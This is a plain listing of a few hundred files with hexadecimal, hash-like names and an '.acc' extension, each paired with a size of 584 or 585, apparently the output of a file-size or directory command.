   585 3c573c41d23c5c5b9ee8c2907d079697.acc
   585 3bb925999bfe2f00e955e35ae5c45acf.acc
   585 3b0b0922fbcee3da3c6b7307bd1bb75e.acc
   585 3ae7e40b423769e8829056053be4b770.acc
   585 397bfae2d17164399945b7e8e5630a86.acc
   585 3918cc808d11bb1c24df866cc0e2a69c.acc
   585 386fe978dd93c84898ffed478ddfc479.acc
   585 385e8f506e4d16fcb3b4f04cb2134bd1.acc
   585 378be8c1fedf59f60349f6bad4b7db95.acc
   585 34ef76485eadbb67f83a4fb1fef184f8.acc
   585 3491e73a84a342b518cd7c7df3e5d6a2.acc
   585 347c3e55d7823a9758de01598aa33f2b.acc
   585 346dfb647268bec0a6e05bd60647b6e6.acc
   585 32bd197fe15d5ac657a7789f5adf672f.acc
   585 321d724386f8ab165f68fff922ee79c3.acc
   585 31c0b98fc822defc124dbc16bfe44333.acc
   585 31586fb5ead11d90c96bbdbb463dee21.acc
   585 31352ca79f8973c646dc89434f91080a.acc
   585 311b41a1d40429482b14e395f56423cb.acc
   585 30df9189d0b3eeeeac5f691bba0fc293.acc
   585 301120b456a3b5981f5cdc9d484f1b3b.acc
   585 2fa45e4ec782cc8a067941b8a4e4eac1.acc
   585 2e5192979d89746230024fb2af498237.acc
   585 2e080ba377f32a78b84231e25673d519.acc
   585 2d9e6682bb5f480978b1a8f61d375bd0.acc
   585 2d2ef1d233841341c13d2d8938cae003.acc
   585 2d07d6a5015dd654b4ca0f32a51906d5.acc
   585 2c7701c77068b9ca7244626133c2ec8d.acc
   585 2c46469b9fac25ad81268c1d2998cdd6.acc
   585 2a87311fdee4da24b126bd114058b9e0.acc
   585 29e6bb8c09665df95fbf0c8ff5e184fd.acc
   585 29ab3224af5d2955eb9f6f9604b09b47.acc
   585 2946c98cb4e7da90b97c8a46f381e55f.acc
   585 2940290175b241c7fcf89c2abbfbfdfc.acc
   585 2928dcb8005fec74d484f4a44d55866a.acc
   585 28803c906e088ad88ec06e251c37db91.acc
   585 2839c1573b4e3e405f28b8e975d3f04a.acc
   585 26ca8b69c7a1d37af08ede635b38ac25.acc
   585 26ba609dea7477bcb7a17b0912ff0ab4.acc
   585 25ca010ecbb68e63f8f6e4df2dbc7a0a.acc
   585 23e1d6517c1a96557eb394a7969ec811.acc
   585 22c46b9ad0990cf7a73fad02a7731184.acc
   585 21d5e879ab9135cbc4f54bfb4a12dfa8.acc
   585 20a2ec5aacbead218c3d170237debf5e.acc
   585 20762f2c75a18c8a0911495214989878.acc
   585 20207ac92b72028c5b4abeb7287280ed.acc
   585 1f4289c9c2d6999e9fd97bfe81a02ffc.acc
   585 1e5e07a4a277061fe97106f08ff478de.acc
   585 1e4e8f4b7afc6067e531f5bde60d94fd.acc
   585 1dd7e55cc130a4b6ea8ce6cb6d7564f5.acc
   585 1b7486f714169cae6ee7e61b8bf775c5.acc
   585 194f2b25230c4cfcb7c2092a006502cd.acc
   585 164c1839f2d21dd77bff5a7933087f4b.acc
   585 1634428ff1f73afb7db9df3e21a99b54.acc
   585 151b3d396f2e1f6f9bafd75e37fe90f8.acc
   585 146e50a62df35e5cc05f0e644f1b4c87.acc
   585 13d91ebcbb1af4df0bf8a82fd3a71476.acc
   585 1385939e3f7c5d728fbb1a665e5fe26a.acc
   585 13394b7bf1e2ffb15c94045398826b52.acc
   585 12e8afda9f95bb015ffa5c1ef3d503d0.acc
   585 10b8b7b1713f1dca5ad72ea3ebcab475.acc
   585 1005c4b820f30569e0a8e290f2893299.acc
   585 0fddb291b4c92a91d97d9f148dce4371.acc
   585 0f6f890eddff9b4cf0deb3269ee0a358.acc
   585 0c04ca2346c45c28ecededb1cf62de4b.acc
   585 0b6ad026ef67069a09e383501f47bfee.acc
   585 0ab1b48c05d1dbc484238cfb9e9267de.acc
   585 0a0bc61850b221f20d9f356913fe0fe7.acc
   585 08cc112526d390bc424e7b4b01848e7b.acc
   585 0832c922148dd0722d6da8d1f438da1a.acc
   585 082e4bdf27365d8205490fbe36bb8028.acc
   585 07fe9d5980ec8dd731bd1cc22efd6bd4.acc
   585 07df2d04959d3f89118a7994d52d002d.acc
   585 0765aa4c97f0857f49921bc32281f6e5.acc
   585 06a80cb247151573c2731863af1e0f3f.acc
   585 06a0b516439755f9b849a2d060df6ce7.acc
   585 05f064ba91479a01e1b9456afa6e9b2f.acc
   585 040a56b78a97b8eb348b5f205d42de7f.acc
   585 03a6a13a7c61cf6bc7753d4c2d41d6d8.acc
   585 030af0ec1428a8fe5a7eaf9e684941e8.acc
   585 03051d2fc082a4486cefc8e4f3aef886.acc
   585 0298cb464791ff4a6c5447114fb4bc18.acc
   585 0278047e279b4b7affb284d5d27fff61.acc
   585 01d537afce94cd70b6dc734db310d34f.acc
   585 00895e6b8d2389faa6cf736388dd6907.acc
   584 ffdfb3dbd8a9947b21f79ad52c6ce455.acc
   584 ffc3cab8b54397a12ca83d7322c016d4.acc
   584 ff39f4cf429a1daf5958998a7899f3ec.acc
   584 fed62d2afc2793ac001a36f0092977d7.acc
   584 feac7aa0f309d8c6fa2ff2f624d2914b.acc
   584 fe85ff58d546f676f0acd7558e19d6ce.acc
   584 fe426e8d4c7453a99ef7cd99cf72ac03.acc
   584 fcb78e263fc7d6e296494e5be897a394.acc
   584 fc73548dc690c238c5aff9cb9e440498.acc
   584 fc6cdd24cf81d66d12c97aa97a37fe33.acc
   584 fbcbbd213f0a3e88ee84eea9a9d01b90.acc
   584 fb73bed60d6dd4559860ea5f7f2f5a3c.acc
   584 fb42d07220a996307df38ec7e6189b4c.acc
   584 fabfd4cd599ac63c5699f456f2cf448e.acc
   584 fa34e37fb9b5153d44e8422b2ed95338.acc
   584 fa06f9a8d4672d4d739a99f310b3add0.acc
   584 f9d12910695a055494dc254902131e12.acc
   584 f9c2c34471cfeb316881a2d97fa79c52.acc
   584 f9851c2e450f13261e020fcf7f0ed180.acc
   584 f94b9157b5e291720bb13d62b9a9623f.acc
   584 f9270f8014a481617dbac28aa5ec7450.acc
   584 f8875be5e4ee006df2228b3ff0a7bd68.acc
   584 f85f26eaa265dd6dbdc8c29061323bf9.acc
   584 f81c0e2e2ac1dc3c497421d901b05da3.acc
   584 f7d83ce903d4c505552533c269c22778.acc
   584 f77e102769baf3c03c855cef0f9f41de.acc
   584 f77b874da650efaa92c5c6a292bbba35.acc
   584 f676c085d2f8e218fc4272c348896c08.acc
   584 f6748d363aff0cc8c7beaa04f1b2ab7e.acc
   584 f5c8f951cc3aa1d66430e3dbf1027039.acc
   584 f5affad2f51f9413416019913e509be2.acc
   584 f54e2b927d8fa8788744c6009d2a45ef.acc
   584 f510f991d80a817405fdea6aeefa0c5a.acc
   584 f4d4370f5f710441f928fbbc1493bb84.acc
   584 f497a39d8a83ef18916f40e4bd2c0ead.acc
   584 f456824eeebf1248ab0b21710eb7cd0c.acc
   584 f4475acf00fd37263c0e1d67dfe79393.acc
   584 f393628766266e2325b9d665ff375314.acc
   584 f2d744aa3a27be76565cb900db0039f0.acc
   584 f2bfb6c3f7cbf65176e39105767b5fb7.acc
   584 f283190eb6180e1a5e27983e1ff63289.acc
   584 f199c163d1bc548b847a6fe85548035d.acc
   584 f16338fa71b5d1b2490f38a38496a2a3.acc
   584 f0f1ee68fd1851d3174be51c80598aae.acc
   584 f09e4569207c33820d2be5ccb98a1879.acc
   584 ef8acec46fe90bacf21119059ee61db0.acc
   584 ef7d353ab64ce2f8649a2fe2e044d00a.acc
   584 eed2a0d81e1c8014dcff0f1e2e4aa549.acc
   584 ee55be0f23fd34553071bf41289545e7.acc
   584 ee0e53c02d3af32a41b0b0db18110a71.acc
   584 ed8949614be8827cfcc3641f7cf6d84d.acc
   584 ed7bb2476880c9f74fc6c84e9bae3d12.acc
   584 ecf30d100c09f82894def7e49bbde2c8.acc
   584 ec57cda985748265567eb5ce65cb6ead.acc
   584 ec4b903ebc21e5d0174d299a785b23d0.acc
   584 ebdf24181447b673a3bd7b10867cf8d3.acc
   584 ebb023e25c2d0714109c21850d514234.acc
   584 eb6069bbcc072e4748cc76e564634cb3.acc
   584 eb4d3f88032008b4c9e25b0c5410279d.acc
   584 eb439f0ed2edd4a1ca186ef9c868c547.acc
   584 e90fc06918e95e2d0f4a32ea178f6f85.acc
   584 e876afc6545d55e0d1297fcd95b0d334.acc
   584 e874f65408cc3005163954b8b31ffeb9.acc
   584 e729ba75c2e61d75052983668155a494.acc
   584 e65e4788185b3d1ba4de7cdcd3f3a5e2.acc
   584 e545f6be978e341ad0412d954c6f5181.acc
   584 e534ab97fa5fa6f90508261518af6761.acc
   584 e51cd1e8e3b38e7491b3a2bf1d54cb85.acc
   584 e515f0b553c041958bfefc737a7a9be7.acc
   584 e4939066a31bb3791e5090eaa126b578.acc
   584 e48560adbad98be98b7ea385132daaa1.acc
   584 e321164b6a58b2bec20f5779cf81a035.acc
   584 e2e5811258574d046e14dcd3ac2c85bd.acc
   584 e2e0c84c82bb1ec6e2ed2e47c4b613fa.acc
   584 e2dae8ebb3b4324ec60ea862147d86cf.acc
   584 e291abebd339260825783fb4c3a308ad.acc
   584 e260b48878509a1e12abb7614b1dae46.acc
   584 e1fc90a1fcaf755f7d87642ee8435aff.acc
   584 e1c22573a63c4b2a458b50fe5952dfbe.acc
   584 e131f1ebe2dd1c2e94bd520c453c6fba.acc
   584 e11afad2d397447c713765da5455284a.acc
   584 e0f6f044cfa36d6e376e2c4d51e19c51.acc
   584 e00ecd8f4f080b2f004469ab977557a2.acc
   584 df6f4c539f4e65dbab41c8d859d716ef.acc
   584 df3bb08355a9cf43ebf38c0b56572f24.acc
   584 df1868a53af00d00adcb968329cba2cf.acc
   584 ddba1881bb08a67296da274255327295.acc
   584 dda838ffa97c73f9b23635a3ea2af089.acc
   584 dd98b8e773842caceb3dfd65807b96a6.acc
   584 dd72dfee0e8914682822bc675abc1c1b.acc
   584 dd1ef498f9168afa3a998bf521c86bdf.acc
   584 dcbcee36c8e9921d457bef60536010fa.acc
   584 dbb9aa3c08cf691b8c020742d28a5126.acc
   584 db89b8312d552ed200d5f232e929d226.acc
   584 da792e19873be561b9410bec2e43cd0d.acc
   584 d9cfdd2f403feb188165f66e93f1f0ea.acc
   584 d92f85304c616afc75cedc569ec95449.acc
   584 d898f1f579e3c074ae703acbf1f7ca64.acc
   584 d88b183a0b7a477c5f7f38649aef54e4.acc
   584 d7da27efabd1420a998985b595a9e3e6.acc
   584 d7cd6ee61bf1652ea1cf0a34291edab7.acc
   584 d6f925ae367e2dbcd8b918ede84fa6ac.acc
   584 d6e92e084ca622a793ed7dd522d5570e.acc
   584 d64498c649d007c2550b893b875491bf.acc
   584 d63d28ffe1c777e4039aaa44f38a9a80.acc
   584 d5cb9f617e1a85d3b82222655d8b9745.acc
   584 d54532bd2e68a899fff5dad8bd5db8e8.acc
   584 d47cf16a162cede027eff16290df4b41.acc
   584 d441f15b2a3476a27e293baf3d0ec05a.acc
   584 d3f31422f7626f223f0566cff6aeb214.acc
   584 d3d8504e9030c7a62c9a753975edee61.acc
   584 d3b32d2462d7cc342c873eb5e446aecb.acc
   584 d3a36914dbbfc27be1850c9ff96782d4.acc
   584 d202e77cc1f248507e2762f3d94e7700.acc
   584 d202a0e5d499e5de951e2bd0f89c1561.acc
   584 d1edb87cf8ab7428f6516d4aa6d4f810.acc
   584 d1a3a981955f9ca90f71169e2ed36f4a.acc
   584 d1a0513c49f6a3e5ac20be49f84d4366.acc
   584 d033c9d931824ff9e2c33961f02fd458.acc
   584 cf436be4e3d4d42361e1634e2fe7ffc3.acc
   584 cf17562e769f00fa2d4c9b06002ff565.acc
   584 cf011a47599e848a6be54aa867f37ec8.acc
   584 ce761813354f67a658f53c621777bd84.acc
   584 ce11ae5a941985ee4365cfd8027a505b.acc
   584 cde3efebc24ac5d927642eb91c120a0a.acc
   584 cd77ee6d8342e1c28b6ca56662319f09.acc
   584 cd247bc40733ce4e2acad1fa1d55581c.acc
   584 cd0601603157ea5959e9920ce184a131.acc
   584 cc66fd1344a67960d78071e553f5325a.acc
   584 cc4b31bcc18c5883483f418ace7032cb.acc
   584 cbeed458cd121a5a971a2578ff6a3a95.acc
   584 cb2da876273338ead9c35ca591d1a74f.acc
   584 c9aa1ec05c4655ff245a6cbf91987b9e.acc
   584 c86c13570b69c871145b9ee78c82cf1c.acc
   584 c809073b951d81730735cbddc4b05b4c.acc
   584 c7eafce7ea1402a837a2876a4df6363c.acc
   584 c79000bbef5faef919233d06186a9460.acc
   584 c6f3ea4d0d9050cdd89b3465cde1091c.acc
   584 c699054ac57388bc81a86e173a40380d.acc
   584 c5fbe301fd23271c5587af536c490d4d.acc
   584 c59de74625806c5e1c0c76a2c744a57e.acc
   584 c5132ddff0d5dcb77af4ec902e3c34a7.acc
   584 c19e88c3bb036819aa5b28cbdf9cfe27.acc
   584 c1700a7bfe673062732771b823b0cd7b.acc
   584 c0449dc4695da9107356b7081eeaf548.acc
   584 bff19337b2e4e2a93e29e98bd931dd19.acc
   584 bfb8e73959a976e5abb32354299d919d.acc
   584 be68d0020eb8ca72d751561bfd379e0c.acc
   584 bd19ed634fca546c3a1ba5839cb38108.acc
   584 bc9767541db7363d22bd389262891376.acc
   584 bc86f3b2b74796989a2607e0c0c0d785.acc
   584 bc77e74af430c6c199676bd28a7239db.acc
   584 bc1d7f1ae59272da503d8400021f1922.acc
   584 bb34a1ff313f2f6c04f276bc796972a1.acc
   584 ba4fb7e7c14fba8f12044868d0a2fb58.acc
   584 ba3f33ae83f835337fc89c330c8c0b0b.acc
   584 b91c776e5fc8ac78ef2b7ac7985c12e7.acc
   584 b8978edfe1f1e84b9157d147adb4a7b3.acc
   584 b81a80f9bb4b1a04afa7097e23cbc76a.acc
   584 b7778d5081f949cedbb609c1792d376e.acc
   584 b7640c209018067b376ae0832f66ebed.acc
   584 b59e8e4197ddedcafa629a4015a652a5.acc
   584 b54969a641bfeeb6a9daaf76b42bb629.acc
   584 b51b74fb4d0fffb13588c438327eb18f.acc
   584 b515f74731640dc9c2bcc5fbb155f0e2.acc
   584 b461cb6730908268d5731c4d30696f23.acc
   584 b4006524aae0d82ce9ad65a8991e81b3.acc
   584 b3fa7845a431dcab7cac67fcfc6dd728.acc
   584 b36b55a6b85410da8098d183b46e9814.acc
   584 b30aff7167e8f8b78dcb22feca8754ad.acc
   584 b2ec2c2d39477ab81eb74f185699e945.acc
   584 b2d9f5c9658426b86efd70046ee8471d.acc
   584 b25f88734c195eac61678d0c1f9eaa4a.acc
   584 b2379715823c2d101d66b2b750d7729c.acc
   584 b2007795fd0d31d65ec16d2cc03b62e2.acc
   584 b1ab8c16c5300a1fc00907310fe6498d.acc
   584 b1a06fa15fea8df052eb0efda06239fc.acc
   584 b117c5fddba8530b339c9a8da696ff0c.acc
   584 b0ffc7ada9b79d0b507d99b67a3260f6.acc
   584 b086c5383d5ba5f9fe55bcf2879d4494.acc
   584 af03037070ba16f49629e8fceae67101.acc
   584 aed357b751b161f2baa30f1a6ffa94d8.acc
   584 ae7f70db2c5682cf9d232915fbe5120c.acc
   584 ae61679e003671db4ef71b3e08e51c6d.acc
   584 ae364452981dad5efa2bed11f58b67ec.acc
   584 ad7cc6e79ce56c437a13246ed6c4d5f8.acc
   584 ad4bd9527fb35490c3c8a2be078c2b3d.acc
   584 ad4704e9fd044a6961dc222624127732.acc
   584 ac4f23bdb45a02602a6501e28993060e.acc
   584 abbdef22ad2cd61ce2b88efdc1fd4068.acc
   584 ab4e2a922a7f3a3c8600276866e05a4e.acc
   584 ab184ebb41fd49201e47e6d9e7995c0f.acc
   584 a98fe279ce82b3e7566be14540cdfd87.acc
   584 a940beb305934c9e105340f21528b1e4.acc
   584 a9304d76fefb2a8b05e7e33bb96c5e0e.acc
   584 a7c061a1de903c3498d4a96242d16244.acc
   584 a710f853274ebac3bbdfa39d1498b131.acc
   584 a6a253ff3c0058a8218eba01acddaa38.acc
   584 a676fde116361fca31ee46e2568e0ff8.acc
   584 a648c7b7032a91bf38440a56b7f1bf26.acc
   584 a6012bfc5cbd982890ccd874df0acb63.acc
   584 a5dd7a85f0c5aef27255defb4059cab6.acc
   584 a5d757244998b2d9ec1d9b88da0c17c7.acc
   584 a5ae203a96c1b48cc51f38e2113b51e2.acc
   584 a398fabe8a9cf8411e32841e10f64dd6.acc
   584 a3692632944476a25b92d486c17c6962.acc
   584 a3009c3a4e00b5c5c760f7b43643bc4f.acc
   584 a2e24c98892ca93d1201c80f42c994e4.acc
   584 a2a532abbf06c0e084f508b5f14de219.acc
   584 a27d0aa5e218c89d734cd7c169f7f4f9.acc
   584 9fe63f9d1390025ee2e3c735c1a75082.acc
   584 9f936f11fb62fc8b30e3d86ff7c0f8cf.acc
   584 9f6357464ddc2017fff1923f28835cf7.acc
   584 9f3c06e35412753ec225c292b7cbc0f2.acc
   584 9f0c5a3cc09e7a3cd0debffdee919bb8.acc
   584 9f07f9526589a189370b73a3b29a4d9b.acc
   584 9ecf16cf62123f6cd5b5cea0f5864497.acc
   584 9e91dd7524e1a9e54af255b02eb3f06a.acc
   584 9e714e03d30847b9faa6f7f34041a818.acc
   584 9e2946901fe6cb9fc604a12d18db1722.acc
   584 9de044238ee025b4a846affc64cc5233.acc
   584 9d1ccb2a318fe144d1787744870973ca.acc
   584 9cc34a3225e3d56ef6ca75d48d1bfeb8.acc
   584 9b38ac5ba7ca3e908bbc52656963ff1c.acc
   584 9b1b85b68b76774b9e97f12d4e685297.acc
   584 9a885af05f71935ae8fb9cbbc07f6c57.acc
   584 99fca069a084b394d4a54401008c0651.acc
   584 99aad93853d637ada481588dfc223c56.acc
   584 998dab6a74e39fc6d830d3569c9eea50.acc
   584 98a9d9ac52319098a6ea778e6ec559ee.acc
   584 984c8ac0662b0368642ddadf106bd1aa.acc
   584 9833b80712e7a1e77e86a2dfbaba8278.acc
   584 9829ce4147ce5ba39e4e95ddb7254b73.acc
   584 97daa2d02c5a4c6a68f81f6e7196a9eb.acc
   584 97cb4404efbed5404dbd3c1023f226e9.acc
   584 97b93d510fb8e5946d975d81a53562de.acc
   584 976358d4677bd2938987d334bb6f283d.acc
   584 94b434c6fe64eb8f08f50bbcc4f4fb57.acc
   584 9485920a1460f5b8a5ce891e19c321a1.acc
   584 9281c329f634b4b2cd88a6defcb7bd86.acc
   584 925a13e731e148e32a024d57905883cf.acc
   584 92579940417f9ae8d23f3274830ceeaa.acc
   584 922bb20268e664d4571a234836f68b7e.acc
   584 91249b887c7bf3f6cb7becc0c0ab8ddd.acc
   584 905fe459c1ae841af1138abf7a49a960.acc
   584 8ef95b6bd6c84e5ea7b1c0c765f9e7b8.acc
   584 8e99440294d984f80beb6d5d9aa95637.acc
   584 8d33eab2dc9fb1ba85fcbb9db580eb5f.acc
   584 8cf431f4c9ed8b09aeaa97b6da4eac57.acc
   584 8ce4aa658a58f13de583838f62ddc5ca.acc
   584 8cd768d35008b86c017e341aa4b0bce8.acc
   584 8c92082936170befc74bde36ed0507c8.acc
   584 8c5bc636a713df10a0b267dbdce15396.acc
   584 8b91eedc4a7f3fa84360dca78e2ab618.acc
   584 8a2b4b1782cbd4660ce40085d31317b7.acc
   584 8a0c42c20d3cc111e294dd14d523b149.acc
   584 897ffb89e0066d9cbb92666cd2e92960.acc
   584 889298fbc7c3ed6d6487da1b725a3d06.acc
   584 884f78f576290e70b234f68cc2b75565.acc
   584 87def2435b8b7dfbc1cb90e594b48a4c.acc
   584 874792fab530aed50b38b26f2a8c1870.acc
   584 860826651b3c5c5f11cbc9985b9c53e0.acc
   584 85e9087a32f5f9ccf8eab9fe2acf9e7d.acc
   584 858d42e024586e34cf961bcd8c52fc26.acc
   584 8578a01a81a21685c098b08d4a3514a0.acc
   584 855b1ce8edf8b2e059444b290b678210.acc
   584 8554f463517b7f7f70c2e0a8b3e72b64.acc
   584 84cf9f79d28237d50c98ba165b000bab.acc
   584 844cebf2af0bfdde679e8e72d2337717.acc
   584 82c22539af6f7d928133b7b1f8abeeec.acc
   584 828bceeca877d2c73e5836d11e1d832b.acc
   584 823e6084e33c3cbf609bcb946fbb5098.acc
   584 80d73c3bbdc077edb98daec9ff26d933.acc
   584 8087166ea0cbc15e43de374cc4179424.acc
   584 7ee435673a9a537131903ce74fe908f7.acc
   584 7e65bc0bdba7609f0fb85f5411e79163.acc
   584 7e16990ea08e7d261645c60447ae412f.acc
   584 7df22b5113da890e88705dde5b8a9871.acc
   584 7dece92a80bd61d390d0589b118234d1.acc
   584 7dd19db14bcaff9c2ab24ceef3217014.acc
   584 7dc9403b60d10a21d8f44bf9948095dc.acc
   584 7d882d79b353d4329ec6f61fdaf4dbfd.acc
   584 7d759940684fb5fdf8bb7c0749ca302f.acc
   584 7cc381a31b1252eb63067fef61319152.acc
   584 7b7cc0505cee71ab02c533fd2db29cde.acc
   584 7b38a14ce39bdd4b91eb69ec02a81f84.acc
   584 7ad216b66bbc8be33e71e9b75b974398.acc
   584 7a7a849d65b57600abea91bb986bdee6.acc
   584 7a747011ee218e9e45365c3169a24754.acc
   584 7a6c81c0e6780f912586590a9bb3d4e9.acc
   584 7a323fcd47afe7cc6248f2fe6e4f8802.acc
   584 7a3062ecd98719e7faac95a4efe188ee.acc
   584 7a2a9752443f4328dbb9a5f4431b1f94.acc
   584 7a16f1be3e1cce885b855e888d413617.acc
   584 79f06acb23f58e97899738c1b32e0968.acc
   584 79d260a20a4bd04419979fddfbb490aa.acc
   584 78a312e0b1ac485db1b5a00393f55994.acc
   584 779a7750a1723d388731bc20c6b05b35.acc
   584 76123b5b589514bc2cb1c6adfb937d13.acc
   584 75942bd27ec22afd9bdc8826cc454c75.acc
   584 758b39c317821013b180ae057bc16d83.acc
   584 756431ad587f462168df5064b3b829a8.acc
   584 74dfe9c8d9defeac563057852db6c94d.acc
   584 74a61a46248d4caa926e1938aecc6534.acc
   584 74a3863d401f4876b428bb498974a8bf.acc
   584 73eedfa54a99abf8c4223588741118f2.acc
   584 73e4380e5ede97598e662531ed11a5fa.acc
   584 731d836d632dbe827ba83ed1dd904e46.acc
   584 72b4c66c76496c6b042719aeb851f526.acc
   584 71c9fffe15fbafc620deace20b7c5eb6.acc
   584 71aae80069a4da7645691daa3d2c5377.acc
   584 70f0b318435ade66c82d93bb770b6ced.acc
   584 6ff05fe0459f5a96fc0f65ee6a70d5cf.acc
   584 6f697ea29832716004b565b9e2a974bb.acc
   584 6f3d197021dd9b9a089147483e317263.acc
   584 6ed19aeaf42959eb8d96b7eb29e5d3e4.acc
   584 6e742f8451c5ec6dc5f531a390c97b7b.acc
   584 6d5d247ebfc4795d2c83676a43e88d1f.acc
   584 6d50c71fb7435ebbece559a5a3b536a7.acc
   584 6d0b2f0cd5a45ec822d779f9ffb1653a.acc
   584 6ceca1d2b3c6a95ece973b660500db6a.acc
   584 6c2baf5043cac2a7bd0ec8ba8067b45b.acc
   584 6c0925ad3a766771c79e7337e33a6d8c.acc
   584 6bcd10214c86176e8c810b179f87ccf3.acc
   584 6ba0c8a624ae32999847adb2b217017e.acc
   584 6b5e880f00cb0a06cc7bb8883ca4246b.acc
   584 6b23ae70d9c694a8f43b0ea455f33223.acc
   584 6aeaa4873136f7d21a3ba00fe3a4bb40.acc
   584 6a8727b0306a2efbd5eba6f4026fdf6b.acc
   584 6a02166c0d69d4f4a81f0e773923da2f.acc
   584 695cc486245e700b16b43e258ce15ea7.acc
   584 68e1781b0492331302362108c6ceb81d.acc
   584 68c3a3ac26417379fcc695e14aa36f51.acc
   584 682bbcc46c90afb5e2aa6feb361ba771.acc
   584 67c1530e6d052befe61c27c7935f710e.acc
   584 679d6fe1e0d242f848e3f919d8c00877.acc
   584 678e183b3178e7921df2a5a7a3a5778b.acc
   584 6700bd647e3c7f1a577ef7335b64e92e.acc
   584 66c7b098bc08fc357766252f3f3e8051.acc
   584 66284d79b5caa9e6a3dd440607b3fdd7.acc
   584 64e321bd2ca29ce92f8794d070dc610a.acc
   584 64cc0529536e5e6c7a99716743e8736f.acc
   584 6427c41c712d10bde42c5231a058261c.acc
   584 63f56536ccbeb53f86180241feedb579.acc
   584 632416bbd8eb4a3480297ea3875ea568.acc
   584 62a7e0ad3a6040bd58bf74b27912aad3.acc
   584 6218cd1ca8743a36fabfc189c4e3288c.acc
   584 61fbc3bd099c1b5bf6abe0df0246863d.acc
   584 618a6cf12f8be23f4f425129f4487c53.acc
   584 616058320a920bbc1078572b9f1b6b70.acc
   584 610fa1e1fd8a8a74b5da05a6c029473a.acc
   584 60de900180b1e32efcd6fddeeaebfdb7.acc
   584 60ce46875da3a71989de7d5ff4aea73a.acc
   584 5f83801c9d2788e006ac5878415aa113.acc
   584 5f632234377f9af6442ea29d8aff30de.acc
   584 5f60a464918c3d8d17940fdd31dd487b.acc
   584 5f50c17e7e3ffccfd65721e30808a54d.acc
   584 5ee81d3848dc565d16f84b8023c78d35.acc
   584 5e2554c58bc13c6398bfc3bd3b8bea5a.acc
   584 5da2cf0551e5d9a82e264b842e2fef39.acc
   584 5d364c970049e9a1ddeab46685ee95c2.acc
   584 5c7fe7fa7cde31ec7f6460dcc866b2c5.acc
   584 5be5196a9bfbf55be5322576b6cf2ec0.acc
   584 5be15dbd24aa31b6de43c69234a72c19.acc
   584 5bc9e0468db90310e045ee1cef02ae49.acc
   584 5b2fd16a5027dca9714596e1f1900ee1.acc
   584 5b275de0f3930d538d41d38012f9f99f.acc
   584 5a92190fa06db59ca8d12f761ef5df66.acc
   584 5a8ca8184c7d197a07716f3b239f5f30.acc
   584 5a62c5fb945007bed47e6e4c114d3be7.acc
   584 59fa74f31a724ab1383360e255a0e711.acc
   584 59ce6c145b9ddfc95f0bed4baa6f9197.acc
   584 59829e0910101366d704a85f11cfdd15.acc
   584 58e21d4294200a2754f190cd15b4cc27.acc
   584 587ca22ea47c6fb4c603e929d0456520.acc
   584 5865c9a855bbc327b8a2fc6db3d86917.acc
   584 5814e18d74c311e709cab1ef69cb7b7e.acc
   584 57e99d6f54ecdce53adcdd0efe8d00b0.acc
   584 5703d0a083181849782ad1bbda821404.acc
   584 56c314ff214498c70201785261a86e8b.acc
   584 56215edb6917e27802904037da00a977.acc
   584 5512bf5534e85f5365db45183a714a26.acc
   584 5492f0f786cc84fb1aee7bc3b17d0d4f.acc
   584 54656a84fec49d5da07f25ee36b298bd.acc
   584 544e693182b1b4ffab54bc0bdd1f216c.acc
   584 53ee88051634f75d532271d10de0cc06.acc
   584 53a7aa18611c1cf6bb13eccd34c8d2f9.acc
   584 539fbd47a23717ee6a38e540e23e3c3b.acc
   584 530cd80ef0fc59616c7eeed85c147bf4.acc
   584 50de687c0d3e1925c2e3e96b2a08b664.acc
   584 50276beac1f014b64b19dbd0e7c6bb1a.acc
   584 500b7e7e925fc1810c0081f49f9878aa.acc
   584 4f61cf16aa405cbd9562831b725166f3.acc
   584 4f1371b82592d1c8f92b91cf32509e5d.acc
   584 4ec2f8f0fb700e23fad05ee516540326.acc
   584 4ebcb090a219d941e56c032cdac43669.acc
   584 4e7da1c5f107c306f55bee851108c402.acc
   584 4e4d7e09dc5de2768b2f670616457f73.acc
   584 4d7a9044e957b9cb0dffd2f7369667ec.acc
   584 4d6d527e8e87c5c6edcd5e189688e377.acc
   584 4d183c48bf0e826fe9f0248a2bd0ce1f.acc
   584 4d083a8cf8154cd657341344580196a0.acc
   584 4cfb2d50597e6ed2f74334d218e5d8d6.acc
   584 4cf44a4d89128da4127db0bec1048c51.acc
   584 4c6dafa3f684f42869b718b251b292eb.acc
   584 4c13d888bd3ac3c2b1e84b50bf35a85a.acc
   584 4bc7b8db43830d6a4957836dc18bf34b.acc
   584 4a66b3ce8466bf011adb1dd9d1814452.acc
   584 49ddeb6b6e65ce0c4fd7ac9d174e611d.acc
   584 48d9698c1ebba40ba8c4c3bccd69c061.acc
   584 48b68e11c3d8416e5db820f8dce9a1cc.acc
   584 486d802595c5498539495b30b658a974.acc
   584 482e09bc32d62b29b51c9d21a173ec14.acc
   584 47a5b5d54b15c594b0d41ce20c8fb113.acc
   584 476845627ec5658e15864a7766fea705.acc
   584 4720f8f57866d9631d8d310093883175.acc
   584 47171c38422e049e50532e6606fa932d.acc
   584 46fcd5bef075246c7d2fd444b41745cb.acc
   584 45c816e15e480fef2ca867297921cae1.acc
   584 450c1b14e8b20b29b1fe9bc23b1f2878.acc
   584 44987d36fe627d12501b25116c242318.acc
   584 4476ecd1835548a4ffcb4de3feb21035.acc
   584 4402cb07ed0509855526702a4ece80f7.acc
   584 430547d637347d0da78509b774bb9fdf.acc
   584 42c5d406ee86e917bcf4cd83d254534b.acc
   584 412c6df90bfa3a0d05fd7d8ab790d376.acc
   584 40e87fd7e03b66cbc81f8212c842d851.acc
   584 409a24500afa25affba8dab727925942.acc
   584 401c55932f8f4fbc27765e3b5dea3358.acc
   584 3f3b9ba3a75e23bebe956760fff45a30.acc
   584 3eb4295fbf0b2bac4aa20350246a6b9d.acc
   584 3eab44115dce3fcadf150d7e98e2f456.acc
   584 3e7269a8cbf32786733aa2073e29d867.acc
   584 3d3e2799ae9dab5057b9ef7dc66138fd.acc
   584 3c03e292162c87b33e89e7c34a7a2d70.acc
   584 3b823513d5f5255facecc595b6c20c41.acc
   584 3b44d9cbc04be9fb5f1a63e666203815.acc
   584 3a6cd651f5316bcc9794b1aedeabd72b.acc
   584 3a682bcef6c37e5541e1fb543fa966b3.acc
   584 3a33c5bf7ef7abcf81c782a79a43d83c.acc
   584 388bd4708d5399f3b57f01b743d41be8.acc
   584 388a6d78ca9a5677cfe6ac6333d10e54.acc
   584 387f8c91842b29f0596a433847400d68.acc
   584 387aa6875b5e6c7225e120ef577bb484.acc
   584 37eab7fc827b5398e708fc8d9bf96adf.acc
   584 366d5953a9b993d1abec74d4bd4f47f5.acc
